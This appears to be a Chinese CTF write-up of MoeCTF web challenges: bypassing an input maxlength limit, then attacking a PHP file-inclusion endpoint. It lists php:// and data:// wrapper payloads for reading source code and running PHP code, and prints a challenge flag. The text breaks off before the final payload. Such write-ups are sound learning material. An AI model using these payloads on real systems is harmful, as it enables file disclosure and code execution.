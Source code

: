 ![limit.png](https://img-blog.csdnimg.cn/20190914194351526.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2lsb3ZlaXR2bQ==,size_16,color_FFFFFF,t_70)

粘贴/输入的时候发现最后的 **t** 怎么也输入进不去，F12打开开发者工具，发现输入框部分的html如下：

```html
<input class="form-control" type="text" name="key" maxlength="14" placeholder="只需要输入m0ectF_1s_Gre@t即可获取flag">
```

双击对应部分，把 maxlength干掉，就可以解除限制。在输入框补上<code>t</code> , 提交！

```
Oops!
Congratulations!You get the flag:moectf{We1C0me_t0_XDseC}
```

### Protocol

> http://39.108.11.206:10003/?file=
>
> Hint: 
>
> php伪协议，文件包含
> https://www.php.net/manual/zh/wrappers.php

访问URL，如下内容：

```
the flag was put in the index.php, can you get it?
```

尝试了几次失败的payload:

```
file=index.php
file=ftp://39.108.11.206:10003/index.php
file=php://filter/read=index.php
file=php://filter/read=string.strip_tags/resource=index.php
file=php://filter/resource=index.php
file=php://filter/read=string.toupper/resource=index.php #多了内容，没什么用
file=php://input <?php highlight_file(‘index.php’)?>
```

尝试了半天，还是百度吧

> https://www.cnblogs.com/Oran9e/p/7795057.html
>
> PHP 读文件和代码执行的方式：
>
> ```
> ?file=data:text/plain,<?php phpinfo()?>
> ?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
> ?file=php://input [POST DATA:]<?php phpinfo()?>
> ?file=php://filter/read=convert.base64-encode/resource=xxx.php
> ```

最终的 payload:
